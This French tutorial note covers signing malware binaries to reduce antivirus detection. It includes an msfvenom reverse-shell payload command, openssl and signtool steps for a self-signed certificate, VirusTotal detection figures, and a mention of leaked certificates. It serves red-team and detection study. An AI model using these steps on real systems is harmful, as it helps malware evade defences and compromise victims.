

# Signature des binaires malware

Lorsqu'un utilisateur télécharge un exécutable légitime, celui-ci est presque toujours **signé numériquement** par son éditeur : la signature atteste que le binaire provient bien de cette entreprise et qu'il n'a pas été altéré. La présence d'une signature n'empêche pas les solutions de sécurité de scanner le fichier, mais son absence déclenche une **scrutabilité supplémentaire** et une méfiance accrue. Signer un binaire malveillant exploite ce biais : un exécutable signé, même avec un certificat non reconnu, bénéficie d'un préjugé favorable et voit sa détection baisser.

Cette technique complète les autres leviers d'évasion statique — [[Obfuscation du payload]], [[Chiffrement du payload]] — et s'articule avec les analyses décrites dans [[Mécanismes de détection]] et [[Contournement des antivirus]].

## Le mécanisme de confiance

Windows Authenticode associe un certificat X.509 à un binaire via un hachage signé. Le système (et les outils de sécurité) peuvent alors vérifier l'identité de l'éditeur et l'intégrité du fichier.



Le préjugé favorable joue à plusieurs niveaux : l'OS peut afficher un éditeur identifié, l'utilisateur est rassuré par l'onglet « Signature numérique », et certains moteurs pondèrent leur verdict à la baisse en présence d'une signature. Un certificat **non fiable** (auto-signé) n'offre pas la réputation d'un certificat reconnu, mais l'effet mesurable reste réel.

## Constat expérimental

Le point de départ est un exécutable généré par Msfvenom :

```bash
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f exe -o maldev.exe
```

Soumis à VirusTotal **avant** signature, ce binaire est détecté très largement : 52 moteurs sur 71 le signalent comme malveillant. Après signature, et sans aucune autre modification du fichier, la détection tombe à **47/71**. La baisse peut sembler modeste, mais l'argument est important : les seuls octets ajoutés sont ceux de la signature.

| État du binaire | Détection VirusTotal |
|---|---|
| Avant signature | 52 / 71 |
| Après signature (certificat auto-signé) | 47 / 71 |

## Obtenir un certificat

Trois voies existent, par ordre de fiabilité décroissante :

| Voie | Efficacité | Remarques |
|---|---|---|
| Achat chez un fournisseur de confiance (DigiCert, etc.) | Élevée | Voie idéale mais coûteuse et traçable |
| Certificat auto-signé | Modérée | Suffisant pour démontrer l'effet sur la détection |
| Certificat valide fuité (GitHub, etc.) | Variable | Usage juridiquement risqué |

## Générer un certificat auto-signé

La démonstration utilise un certificat auto-signé produit avec `openssl` (disponible nativement sous Kali Linux). Deux étapes : produire les fichiers `pem`, puis les empaqueter en `pfx`.

```bash
# Étape 1 : générer la clé privée et le certificat auto-signé (clé RSA 4096, SHA-256, valide 365 jours)
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -sha256 -days 365

# Étape 2 : exporter le tout au format PKCS#12 (.pfx), une phrase de passe est demandée
openssl pkcs12 -inkey key.pem -in cert.pem -export -out sign.pfx
```

Le fichier `sign.pfx` regroupe la clé privée et le certificat public ; c'est ce fichier que l'outil de signature consomme.

## Signer le binaire

La signature s'effectue avec `signtool.exe`, fourni par le Windows SDK. L'option `/t` ajoute un **horodatage** (timestamp) : elle garantit que la signature reste valide même après l'expiration du certificat, en figeant la date de signature auprès d'une autorité de confiance.

```powershell
signtool sign /f sign.pfx /p <pfx-password> /t http://timestamp.digicert.com /fd sha256 binary.exe
```

Après l'opération, les propriétés du fichier affichent un onglet **Digital Signature** présentant les détails du certificat. Windows signale en parallèle que le certificat n'est pas approuvé — conséquence directe de l'auto-signature.

## Portée et limites

- Une signature auto-signée **n'apporte pas de réputation** : elle ne trompe pas les moteurs qui vérifient la chaîne de confiance. Son intérêt tient à la modification du fichier lu par les heuristiques et à l'apparence visuelle.
- L'effet sur la détection est **mesurable mais partiel** : signer ne fait pas disparaître un binaire malveillant d'un rapport VirusTotal.
- La signature se cumule avec les autres techniques d'évasion statique (chiffrement, obfuscation) et dynamique pour abaisser le taux de détection global.
